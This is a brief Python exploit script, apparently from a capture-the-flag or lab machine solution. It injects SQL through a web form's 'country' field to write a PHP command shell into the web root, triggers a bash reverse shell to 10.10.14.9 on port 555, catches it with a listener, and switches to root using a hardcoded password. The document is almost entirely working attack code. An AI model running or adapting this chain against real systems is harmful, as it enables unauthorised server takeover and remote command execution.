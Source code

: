 ```python
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 555

def createFile():
    data_post = {
        'username': 'pablo',
        'country': """Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % filename
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
        'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.9/555 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':
    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
##        pdb.set_trace()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("su root")
    time.sleep(2)
    shell.sendline("uhc-9qual-global-pw")
    shell.interactive()
```
